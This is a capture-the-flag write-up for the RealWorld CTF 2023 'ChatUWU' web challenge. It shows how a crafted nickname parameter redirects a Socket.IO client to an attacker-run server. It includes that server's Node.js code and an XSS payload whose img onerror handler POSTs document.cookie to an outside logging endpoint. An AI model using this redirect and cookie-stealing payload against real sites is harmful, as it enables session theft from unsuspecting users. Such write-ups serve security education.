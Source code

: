 ```yaml
---
layout: writeup
title: RealWorld CTF 2023 - ChatUWU (web/xss/Socket.IO)
date: 2023-1-6
---
```


## Premise:

It's a chat room where the frontend communicates with the backend via Socket.io. Messages sent from the frontend get sanitized via DOMPurify in the backend so barring a zero-day with DOMPurify, there's no immediately obvious way to get XSS from the backend.

```javascript
socket.on("msg", (msg) => {
  msg.from = String(msg.from).substr(0, 16);
  msg.text = String(msg.text).substr(0, 140);
  if (room === "DOMPurify") {
    io.to(room).emit("msg", {
      from: DOMPurify.sanitize(msg.from),
      text: DOMPurify.sanitize(msg.text),
      isHtml: true,
    });
  } else {
    io.to(room).emit("msg", {
      from: msg.from,
      text: msg.text,
      isHtml: false,
    });
  }
});
```

Looking at the frontend code, we can see the socket connection gets initialized with the `io` constructor from Socket.io:

```javascript
let socket = io(`/${location.search}`);
```

The frontend looks for two URL parameters: `nickname` & `room`--room must equal either `"DOMPurify"` or `"Text"`, otherwise the frontend will error out, but we can load nickname with whatever we want.  Any we can trick the socket io parser to open a connection to another endpoint by using the `@` character in our nickname:

`http://47.254.28.30:58000/?room=DOMPurify&nickname=@our-evil-endpoint.com/`

This allows us to send a URL to the admin bot which will then read an HTML payload from our endpoint and we can easily exfil the flag.


## Server code:
I had to setup the CORS header to accept requests from any origin (`origin:*`) since our endpoint wasn't the same origin as the frontend.

```javascript
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http, {
	cors: {
		origin: "*",
		methods: ["GET", "POST"]
	},
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = 9999;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

const fs = require('fs')
const payload = fs.readFileSync('evil.js', 'utf-8')



io.on('connection', (socket) => {
    console.log("THIS SHOULD TRIGGER")
    let {nickname, room} = socket.handshake.query;
    console.log("Opening connection for: nickname=",nickname, "room =", room)
    console.log(socket.handshake.query)
    socket.join('DOMPurify');
    io.to('DOMPurify').emit('msg', {
        from: 'system',
        text: payload,
	isHtml: true
        // text: 'a new user has joined the room'
    });
    socket.on('msg', msg => {
	msg.from = String(msg.from).substr(0, 16)
        msg.text = String(msg.text).substr(0, 140)
	console.log(`RECV: from = "${msg.from}", text = "${msg.text}"`)
        if (room === 'DOMPurify') {
            io.to('DOMPurify').emit('msg', {
                from: DOMPurify.sanitize(msg.from),
                text: DOMPurify.sanitize(msg.text),
                isHtml: true
            });
        } else {
            io.to(room).emit('msg', {
                from: msg.from,
                text: msg.text,
                isHtml: true
            });
        }
    });
});

http.listen(port, hostname, () => {
    console.log(`outpost server running at http://${hostname}:${port}/`);
});
```

From here our server would just read `evil.js` which included a standard XSS payload:

```html
<img src=x onerror="fetch('https://rehiughergrgiuehg.free.beeceptor.com', {method: 'POST', body: document.cookie})" />
```

And finally, we get our flag: `flag=rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}`